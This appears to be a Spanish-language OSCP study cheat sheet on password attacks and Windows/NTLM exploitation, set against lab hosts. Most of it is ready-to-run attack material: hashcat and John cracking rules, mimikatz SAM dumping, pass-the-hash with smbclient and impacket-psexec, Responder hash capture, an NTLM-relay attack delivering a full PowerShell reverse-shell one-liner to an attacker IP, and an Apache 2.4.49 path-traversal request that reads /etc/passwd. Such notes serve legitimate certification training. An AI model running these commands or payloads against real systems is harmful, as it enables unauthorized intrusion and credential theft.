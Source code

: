 
## Password attacks

  Crear una regla para hashcat que añada '1@3$5' al final de cada contraseña:

    └─# cat demo.rule
    $1 $@ $3 $$ $5

  Utilizamos la regla para crackear el hash MD5:

    hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -r demo.rule

  Crear una regla para convertir todo a mayúsculas con 'u' y duplicar cada palabara 'd':

    └─# cat demo2.rules 
    u d

  Ejecutamos el ataque:

    └─# hashcat -m 0 hash2.txt /usr/share/wordlists/rockyou.txt -r demo2.rules

  Conseguimos la contraseña:

    19adc0e8921336d08502c039dc297ff8:<REDACTED>

  Reglas de contraseñas:

    https://hashcat.net/wiki/doku.php?id=rule_based_attack

### Keepass

  Buscamos por archivos de Keepass:

    Get-ChildItem -Path C: -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

  Nos transferimos el archivo a nuestro local y sacamos el hash con keepass2john:

    └─# keepass2john Database.kdbx > keepass.hash

  Lanzamos hashcat con la regla /rockyou-30000.rule para crackear la contraseña:

    └─# hashcat -m 13400 keepass_hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force

### id_rsa

  Para sacar el hash de una clave privada id_rsa:

    ssh2john id_rsa > ssh.hash

  Para pasar las reglas a JTR, tenemos que modificar el archivo custom.rule:

    └─# cat custom.rule 
    [List.Rules:sshRules]
    c $1 $3 $7 $@
    c $1 $3 $7 $$
    c $1 $3 $7 $#

    sh -c 'cat custom.rule >> /etc/john/john.conf'

  Y corremos JTR:

    └─# john --wordlist=ssh.passwords --rules=sshRules ssh_hash

### NTLM

  Si tenemos privilegios de Administador en una máquina Windows, ejecutamos el comando para ver otros usuarios en el sistema a través de PowerShell:

    Get-LocalUser

  Una vez localicemos los nuevos usuarios, corremos mimikatz y ejecutamos:

    privilege::debug

  Con este comando activamos el permiso 'SeDebugPrivilege' que es necesario para este ataque. Después, lanzamos:

    token::elevate

  Para elevar privilegios a SISTEMA.

  Finalmente, para obtener los hashes:

    lsadump::sam

Una vez tenemos el hash, buscamos en hashcat el modo de crackeo:

  ![image](https://github.com/loqasto/OSCP/assets/111526713/f9b028e5-0d0e-4e5a-a8f0-1156c3ac3d84)

En este caso, el modo es 1000, por lo tanto:

    └─# hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt

Y obtenemos la contraseña en texto plano.

### PassTheHash

Conectar a compartido por smbclient con PtH:

    smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

Obtener shell con psexec a través de PtH:

    impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

Obtener hash NTLM desde un formulario de carga de archivos:

  Tenemos el formulario de carga:

  ![image](https://github.com/loqasto/OSCP/assets/111526713/0e8305d9-b2f8-40d4-a58f-333a4e4df9fa)

  Subimos un fichero cualquiera y capturamos la petición con BurpSuite:

  ![image](https://github.com/loqasto/OSCP/assets/111526713/162f3a70-59bb-42ff-8ec3-e12e82d2307a)

  Nos ponemos en escucha con responder por la interfaz correspondiente:

    └─# responder -I tun0

  Enviamos la siguiente petición:

  ![image](https://github.com/loqasto/OSCP/assets/111526713/0a6aea7c-89ef-4cb9-a936-f6ae8fff365f)

  Y recibimos el hash:

  ![image](https://github.com/loqasto/OSCP/assets/111526713/05039fb0-22bc-42d3-83a7-a30f7bd9111e)

  ### NTLM-relay attack

  Tenemos acceso con el usuario 'files02admin' a la máquina 'files01':

  ![image](https://github.com/loqasto/OSCP/assets/111526713/6e4955e6-8773-4b18-a063-20b102efc4cb)

  Codificamos en base64 una cadena de powershell reverse-shell de una sola línea, que apunte a nuestra máquina de ataque:

    $TEXTO = '$client = New-Object System.Net.Sockets.TCPClient(''192.168.45.212'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
    $ENCODED1 = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($TEXTO))
    Write-Output $ENCODED1

  Con ntlmrelay de Impacket, nos ponemos en escucha para recibir una conexión por smb que ejecute la rev shell:

    └─# impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.245.212 -c "powershell -enc JABjAGwAaQBlAG4AdA...."

  Nos ponemos en escucha por el puerto indicado en la one liner de PS:

    nc -lnvp 443

  Y desde la máquina files01 intentamos conectarnos por SMB a nuestra máquina con ntlmrelay corriendo, los que hará que se ejecuta la rev shell de powershell y nos llegue la shell al puerto en escucha:

    dir \\192.168.45.212\test

  ![image](https://github.com/loqasto/OSCP/assets/111526713/473ec30f-1b0c-4063-8ffd-d3a27518903c)

## Windows Privilege Escalation

  

## Vulnerabilidades conocidas

Apache HTTP Server 2.4.49 - Path traversal

    GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
    Host: https://www.twitter.com/vulnmachines
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Pragma: no-cache
    Cache-Control: no-cache

    
